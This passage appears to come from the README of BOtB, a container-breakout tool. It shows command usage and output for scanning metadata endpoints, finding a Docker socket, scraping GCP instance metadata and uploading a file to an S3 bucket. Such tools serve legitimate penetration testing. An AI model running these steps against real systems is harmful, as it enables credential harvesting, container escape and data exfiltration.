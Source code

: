 BOtB can also be supplied with a list of endpoints to scan for.
```
#  cat endpoints.txt 
https://heroku.com

#  ./bob_linux_amd64 -metadata=true -endpointlist=endpoints.txt
[+] Break Out The Box
[*] Loading entries from: endpoints.txt
[*] Attempting to query metadata endpoint: 'https://heroku.com'
[!] Reponse from 'https://heroku.com' -> 200
[+] Finished

# echo $?
1
```


### Scan for UNIX Domain Sockets that respond to HTTP
```
#  ./bob_linux_amd64 -find-http=true
[+] Break Out The Box
[+] Looking for HTTP enabled Sockets
[!] Valid HTTP Socket: /var/run/docker.sock
[+] Finished

```

### Scrape data from GCP metadata instance
```
#  ./botb_linux_amd64 -scrape-gcp=true
[+] Break Out The Box
[+] Attempting to connect to:  169.254.169.254:80

[*] Output->
 HTTP/1.0 200 OK
Metadata-Flavor: Google
Content-Type: application/text
Date: Sun, 30 Jun 2019 21:53:41 GMT
Server: Metadata Server for VM
Connection: Close
Content-Length: 21013
X-XSS-Protection: 0
X-Frame-Options: SAMEORIGIN

0.1/meta-data/attached-disks/disks/0/deviceName persistent-disk-0
0.1/meta-data/attached-disks/disks/0/index 0
0.1/meta-data/attached-disks/disks/0/mode READ_WRITE
.....

```

### Push data to an AWS S3 Bucket
```
#  ./bob_linux_amd64 -s3push=fileToPush.tar.gz -s3bucket=nameOfS3Bucket -region=eu-west-2
[+] Break Out The Box
[+] Pushing fileToPush.tar.gz -> nameOfS3Bucket
[*] Data uploaded to: https://nameOfS3Bucket.s3.eu-west-2.amazonaws.com/fileToPush.tar.gz
[+] Finished

```
